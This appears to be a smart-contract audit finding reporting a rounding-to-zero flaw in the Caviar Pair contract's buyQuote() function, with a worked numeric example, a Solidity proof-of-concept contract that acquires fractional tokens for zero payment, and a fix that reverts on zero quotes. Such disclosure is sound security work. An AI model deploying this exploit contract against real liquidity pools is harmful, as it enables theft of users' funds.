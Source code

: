 ## Lines of code

https://github.com/code-423n4/2022-12-caviar/blob/main/src/Pair.sol#L147
https://github.com/code-423n4/2022-12-caviar/blob/main/src/Pair.sol#L398

## Vulnerability details

## Impact

Whenever fractionalTokenReserves() is greater than baseTokenReserves(). The pair is vulnerable to loosing fractional tokens.

This is becasue the function buyQuote() can return 0 even though the caller is atempting to withdraw more than 0 fractional tokens. For example
if fractionalTokenReserves() returned 1000 and baseTokenReserves() returned 100, an Attacker could 'buy' 9 fractional tokens and buyQuote() would return 0.
the reason being is that solidity does not handle decimals. So whenever the numerator in buyQuote() is less than the denominator it will be a value less then 1 which will return 0.
Almost Whenever fractionalTokenReserves() is greater than baseTokenReserves() an attacker can steal at least 1 fractional token and in very possible sitautions can take more.

For example:

    function buyQuote(uint256 outputAmount) public view returns (uint256) {
        return (outputAmount * 1000 * baseTokenReserves()) / ((fractionalTokenReserves() - outputAmount) * 997);
    }

If output amount = 9
BaseTokenReserves() = 100
FractionalTokenReserve() = 1000
The above function would look more like this:

    function buyQuote(9) public view returns (uint256) {
        return (9 * 1000 * 100) / ((1000 - 9) * 997);
    }

Which equals 900000 / 988027 (or 0.911)
Because 0.911 is less than 1, the function will return 0.

Note
An attacker could also repeat this proccess as many times as they would like. If they were to execute this in a loop they could cause serious damage all in one transaction.
With the 100 baseTokenReserves() and 1000 fractionalTokenReserves() an attaker could take up to 898 of the fractionalTokens.

More detailed scenario:
A pair is created with the base token being BNB (for easy math lets say with a price of 250).
the pool works itself out and a fractional token (FRAC) is priced at 25 dollars.
the pool will then have more or less a ratio of 1 BNB to 10 FRAC.
if the NFT gains value and the pair is 100 BNB and 1000 FRAC.
Alice (attacker) can deploy the contract below and execute the attack function
Alice starts with 0 BNB and 0 FRAC
the attack function will send 0 BNB to the pair contract in exchange for 9 FRAC (free FRAC)
the attacker can repeat the proccess of exchanging 0 BNB for a variable amount of FRAC until baseTokenReserves() and fractionalTokenReserves() are more or less equal.
to save the number of transactions the attacker runs she can put the function in a loop.
After the loop completes the pair contract will have 100 BNB and 102 FRAC
Alice will have 0 BNB and 898 FRAC
Alice can then sell the FRAC for BNB
Alice now has the 100 BNB

## Proof of Concept

Contract to steal liquiduty
contract steal {
Pair victim;

    constructor(address _victim) {
        victim = Pair(_victim);
    }

    function attack() external {
        Pair vic = victim;
        uint256 amountToSteal;

        // Loop could start here if attacker chooses.
        // check to see if anything can be stolen
        if( 0 == (1 * 1000 * vic.baseTokenReserves()) / ((vic.fractionalTokenReserves() - 1) * 997)) {
            // find most amount I can steal in one transaction.
            amountToSteal = ((vic.fractionalTokenReserves() * 997) / (1000 * vic.baseTokenReserves()));
            // confirming I can steal more than 1
            if((amountToSteal * 1000 * vic.baseTokenReserves()) / ((vic.fractionalTokenReserves() - amountToSteal) * 997) == 0) {
                // get 'amountToSteal' for free guarenteed.
                vic.buy(amountToSteal,0);
            }
            else {
                // on occasion it is easier to just steal 1 as opposed to calculating maximum
                vic.buy(1,0);
            }
        }
    }

}

## Tools Used

Manual Analysis

## Recommended Mitigation Steps

The problem stems from buyQuote() being allowed to return zero on a non-zero buy. My reccomended mitigation step would be to require that buyQuote() returns a non-zero value.

    /// @notice The amount of base tokens required to buy a given amount of fractional tokens.
    /// @dev Calculated using the xyk invariant and a 30bps fee.
    /// @param outputAmount The amount of fractional tokens to buy.
    /// @return inputAmount The amount of base tokens required.
    function buyQuote(uint256 outputAmount) public view returns (uint256) {
        if(0 == (outputAmount * 1000 * baseTokenReserves()) / ((fractionalTokenReserves() - outputAmount) * 997))
        {
            revert InvalidOutputAmount();
        }
        return (outputAmount * 1000 * baseTokenReserves()) / ((fractionalTokenReserves() - outputAmount) * 997);
    }

Note
Even though the attacker is stealing small amounts at a time this type of attack can be done in a loop that would allow them take a decent amount each time.
Along with that if an attacker simply wanted to have caviar loose credibility and did not have monetary motives. performing this attack would show users that pairs have the potential to loose most all of its liquiduity, thus making this project appear unsafe and the project will loose its user base.
